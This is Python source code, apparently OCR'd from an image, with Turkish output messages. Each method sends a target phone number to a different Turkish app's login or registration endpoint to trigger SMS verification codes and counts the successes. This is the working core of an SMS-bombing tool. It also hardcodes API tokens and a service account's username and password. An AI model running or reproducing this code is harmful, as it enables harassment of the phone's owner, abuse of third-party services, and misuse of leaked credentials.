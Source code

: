     
    #porty.tech
    def Porty(self):
        try:
            url = "https://panel.porty.tech:443/api.php?"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=UTF-8", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "User-Agent": "Porty/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Token": "q2zS6kX7WYFRwVYArDdM66x72dR6hnZASZ"}
            json={"job": "start_login", "phone": self.phone}
            r = requests.post(url=url, json=json, headers=headers, timeout=6)
            if r.json()["status"]== "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> panel.porty.tech")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> panel.porty.tech")
            
    
    #taksim.digital
    def Taksim(self):
        try:
            url = "https://service.taksim.digital:443/services/PassengerRegister/Register"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "TaksimProd/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Token": "gcAvCfYEp7d//rR5A5vqaFB/Ccej7O+Qz4PRs8LwT4E="}
            json={"countryPhoneCode": "+90", "name": "Memati", "phoneNo": self.phone, "surname": "Bas"}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["success"]== True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> service.taksim.digital")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> service.taksim.digital")
    
    
    #vakiftasdelensu.com
    def Tasdelen(self):
        try:
            url = "http://94.102.66.162:80/MobilServis/api/MobilOperation/CustomerPhoneSmsSend"
            json= {"PhoneNumber": self.phone, "user": {"Password": "Aa123!35@1","UserName": "MobilOperator"}}
            r = requests.post(url=url, json=json, timeout=6)
            if r.json()["Result"]== True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> 94.102.66.162:80")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> 94.102.66.162:80")
    
    
    #tasimacim.com
    def Tasimacim(self):
        try:
            url = "https://server.tasimacim.com/requestcode"
            json= {"phone": self.phone, "lang": "tr"}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> server.tasimacim.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> server.tasimacim.com")
    
